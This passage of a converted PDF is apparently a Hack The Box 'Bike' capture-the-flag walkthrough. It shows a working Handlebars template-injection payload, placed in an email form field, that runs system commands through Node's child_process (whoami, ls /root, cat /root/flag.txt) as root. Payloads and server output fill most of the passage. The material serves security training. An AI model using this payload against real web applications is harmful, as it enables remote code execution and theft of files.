

### Page 16

```
After URL encoding and sending the payload, we get the following response from the server:
The require  object has been called successfully and the child_process  module loaded.  Let's now 
attempt to run system commands.
We will need to URL encode the above payload once again. 
Copy the payload in the bottom pane and paste it into the email=  field once more, replacing the previous.
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
[object Object]
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return 
process.mainModule.require('child_process').execSync('whoami');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```


### Page 17

```
Now click on the "Send" button.
```


### Page 18

```
In the response we see that the output of the whoami  command is root . This means that we have 
successfully run system commands on the box and also that the web server is running in the context of the 
root  user. We can now proceed one of two ways. We can either get a Reverse Shell on the affected system, 
or directly grab the flag. In this writeup we will focus on the latter.
We know that the flag is most probably located in /root  but we can also verify this. Let's change our 
command from whoami  to ls /root  to list all files and folders in the root directory.
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('ls 
/root');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
```






### Page 19

```
URL encode the payload and send it as shown before. In the response we see the following.
The flag is indeed in /root  and is called flag.txt . Let's modify our payload in order to read it.
The flag is shown in the server response and can be copied and pasted to the Hack The Box platform.
Congratulations, you have finished the Bike box.
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
Backend
flag.txt
snap
{{#with "s" as |string|}}
  {{#with "e"}}
    {{#with split as |conslist|}}
      {{this.pop}}
      {{this.push (lookup string.sub "constructor")}}
      {{this.pop}}
      {{#with string.split as |codelist|}}
        {{this.pop}}
        {{this.push "return process.mainModule.require('child_process').execSync('cat 
/root/flag.txt');"}}
        {{this.pop}}
        {{#each conslist}}
          {{#with (string.sub.apply 0 codelist)}}
            {{this}}
          {{/with}}
        {{/each}}
      {{/with}}
    {{/with}}
  {{/with}}
{{/with}}
We will contact you at:       e
2
[object Object]
function Function() { [native code] }
2
[object Object]
6b******************************
```


---

Generated by tools/convert_pdf_to_md.py — review & redact sensitive info before publishing.
